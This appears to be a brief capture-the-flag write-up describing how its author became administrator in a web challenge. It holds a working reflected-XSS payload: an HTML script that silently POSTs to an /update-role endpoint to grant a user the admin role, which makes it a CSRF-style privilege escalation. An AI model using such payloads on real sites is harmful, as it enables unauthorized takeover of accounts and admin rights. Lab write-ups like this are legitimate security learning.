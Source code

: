 ## Solution

We are the first solver of this challenge!

```html
<script>
  fetch("/update-role", {
    headers: { "content-type": "application/x-www-form-urlencoded" },
    body: "target_user_id=df589611-0927-4be2-9de3-72c68244f48a&role=admin",
    method: "POST",
  });
</script>
```

The key to solving this challenge is to exploit a reflected XSS vulnerability to carry out CSRF attacks, promoting us to administrator.

(At the time of writing this writeup, the challenge is inaccessible. Please forgive me for not remembering the exact name of the vulnerable endpoint and the flag.)
